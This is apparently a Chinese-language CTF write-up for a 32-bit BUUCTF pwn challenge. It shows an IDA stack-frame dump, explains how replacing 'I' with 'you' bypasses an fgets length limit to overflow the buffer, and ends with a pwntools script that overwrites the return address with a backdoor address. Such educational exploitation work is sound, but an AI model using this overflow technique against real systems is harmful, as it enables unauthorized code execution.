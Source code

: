 # 题目

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744107685467-a88811a3-a772-43b0-b3bd-694c11724ab5.png)

# 做法

开虚拟机，checksec

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744107794551-87d0a4a0-d536-4303-b804-265f9db9170a.png)

32位，还是没开栈保护

扔进IDA（32位），找到main，F5反编译

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744107858181-85dba884-c6c8-476a-afbf-f86fe8826cbc.png)

没有啥，点进去vuln看看

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744107918986-ebe15892-8b0b-4c4f-a2e9-789e53d37525.png)

眼花缭乱，先按Shift+F12打开string窗口，一键找出所有的字符串，看看有啥

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744108031639-0df56937-1e63-48af-82ba-8bb4c07ab3c9.png)

诶，有个cat flag，点进去，然后Ctrl+x，确定

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744108187207-a6180a22-2216-4a78-b8ef-89260ff26e30.png)

按Tab转成c语言看下

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744108241896-e1ee9973-03b2-4d5a-ab34-dc9ac8b55eda.png)

喔，后门函数这不找到了嘛，然后回去看看vuln函数

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744107918986-ebe15892-8b0b-4c4f-a2e9-789e53d37525.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

我们看到第12行的fgets函数，这是我们的输入点，限制在32个字符

不熟悉这个函数，求助一下AI：

1、可导致栈溢出

2、在正常使用时，`n` 代表要读取的最大字符数（包含字符串结束符 `'\0'`），`fgets` 会保证最多读取 `n - 1` 个字符到 `str` 所指向的缓冲区中，并在末尾添加 `'\0'`

（即这题的fgets函数限制是在31个字符）

点进fgets函数括号里的s看下，完整代码如下

s对应第37行的s

```
-00000058 ; D/A/*   : change type (data/ascii/array)
-00000058 ; N       : rename
-00000058 ; U       : undefine
-00000058 ; Use data definition commands to create local variables and function arguments.
-00000058 ; Two special fields " r" and " s" represent return address and saved registers.
-00000058 ; Frame size: 58; Saved regs: 4; Purge: 0
-00000058 ;
-00000058
-00000058                 db ? ; undefined
-00000057                 db ? ; undefined
-00000056                 db ? ; undefined
-00000055                 db ? ; undefined
-00000054                 db ? ; undefined
-00000053                 db ? ; undefined
-00000052                 db ? ; undefined
-00000051                 db ? ; undefined
-00000050                 db ? ; undefined
-0000004F                 db ? ; undefined
-0000004E                 db ? ; undefined
-0000004D                 db ? ; undefined
-0000004C                 db ? ; undefined
-0000004B                 db ? ; undefined
-0000004A                 db ? ; undefined
-00000049                 db ? ; undefined
-00000048                 db ? ; undefined
-00000047                 db ? ; undefined
-00000046                 db ? ; undefined
-00000045                 db ? ; undefined
-00000044                 db ? ; undefined
-00000043                 db ? ; undefined
-00000042                 db ? ; undefined
-00000041                 db ? ; undefined
-00000040                 db ? ; undefined
-0000003F                 db ? ; undefined
-0000003E                 db ? ; undefined
-0000003D                 db ? ; undefined
-0000003C s               db ?
-0000003B                 db ? ; undefined
-0000003A                 db ? ; undefined
-00000039                 db ? ; undefined
-00000038                 db ? ; undefined
-00000037                 db ? ; undefined
-00000036                 db ? ; undefined
-00000035                 db ? ; undefined
-00000034                 db ? ; undefined
-00000033                 db ? ; undefined
-00000032                 db ? ; undefined
-00000031                 db ? ; undefined
-00000030                 db ? ; undefined
-0000002F                 db ? ; undefined
-0000002E                 db ? ; undefined
-0000002D                 db ? ; undefined
-0000002C                 db ? ; undefined
-0000002B                 db ? ; undefined
-0000002A                 db ? ; undefined
-00000029                 db ? ; undefined
-00000028                 db ? ; undefined
-00000027                 db ? ; undefined
-00000026                 db ? ; undefined
-00000025                 db ? ; undefined
-00000024                 db ? ; undefined
-00000023                 db ? ; undefined
-00000022                 db ? ; undefined
-00000021                 db ? ; undefined
-00000020                 db ? ; undefined
-0000001F                 db ? ; undefined
-0000001E                 db ? ; undefined
-0000001D                 db ? ; undefined
-0000001C var_1C          db ?
-0000001B                 db ? ; undefined
-0000001A                 db ? ; undefined
-00000019                 db ? ; undefined
-00000018 var_18          db ?
-00000017                 db ? ; undefined
-00000016                 db ? ; undefined
-00000015                 db ? ; undefined
-00000014                 db ? ; undefined
-00000013                 db ? ; undefined
-00000012                 db ? ; undefined
-00000011 var_11          db ?
-00000010 var_10          db ?
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009 var_9           db ?
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```

得知，s到r的大小为0x3C-4+4+4=64，后门函数也有了

因此，这里我们考虑构造栈溢出，但是因为fgets函数限制了输入字符

64>31，因此我们不能直接塞字节数据进去，

我们回到vuln函数，继续往下看，看到you，I 还有replace（替换）![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744107918986-ebe15892-8b0b-4c4f-a2e9-789e53d37525.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0%2Fresize%2Cw_1125%2Climit_0)

于是我们想到——在限制输入字符的情况下填满它，就得把 I 换成you

算一下要换多少个——64/3=21余1（换21个，然后塞一个字节数据进去就可以了）

（注：换20个，然后塞4个字节数据等等也是可以的，自己换下试试，我这里试到换18个，塞10个字节数据进去就得不出flag了，正常来说输入字符范围在31个以内都可以的，也许fgets函数里本来就有些东西吧，就像你分一个200G的盘，它的可用内存总没有200G一般）

【遇到这种换字符的不知道要用总数除以多少的，被除数 可以用you（1个要换成的字符长度）除以 I （1个要被换的字符长度）得出（即3/1也就是3）】

至此，我们构造exp

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744112676743-f7145a5b-adb7-4d22-939d-39c3d33dbf24.png)

代码如下

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",29891)

#定义 payload
payload = b'I' * 21 + b'a' * 1 + p32(0x8048F0D)

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

得出flag

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744112622366-49a89c94-b204-4aca-a139-ba5bf8773821.png)

# 更新

于2025.4.8